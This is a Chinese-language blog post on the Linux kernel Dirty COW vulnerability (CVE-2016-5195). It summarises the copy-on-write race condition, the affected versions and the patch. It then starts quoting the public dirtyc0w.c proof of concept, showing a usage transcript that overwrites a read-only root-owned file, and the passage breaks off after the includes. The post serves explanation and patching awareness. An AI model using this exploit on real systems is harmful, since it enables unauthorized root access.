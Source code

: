```yaml
---
layout: post
title: CVE-2016-5195 | Dirty CoW
category: Sec
commentIssueId: 3
---
```


# CVE-2016-5195 DirtyCoW

## 简介

下面内容来自 360 安全客，链接在*参考*一节。

漏洞编号：CVE-2016-5195  
漏洞名称：脏牛（Dirty COW）  
漏洞危害：低权限用户利用该漏洞技术可以在全版本Linux系统上实现本地提权  
影响范围：Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

360 Vulpecker Team：Android 7.0最新的10月补丁安全级别的系统上测试过漏洞POC，确认 Android 受影响

**Linux内核的内存子系统在处理写时拷贝（Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞。**

**如何修复**

Linux团队正在积极的修复此漏洞，可以通过系统更新到最新发行版修复此漏洞。软件开发人员也可以通过

https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/？id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619

重新编译Linux修复此漏洞。

## PoC及原理

内容来自 Github，详见参考链接

{% highlight c %}
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -lpthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
 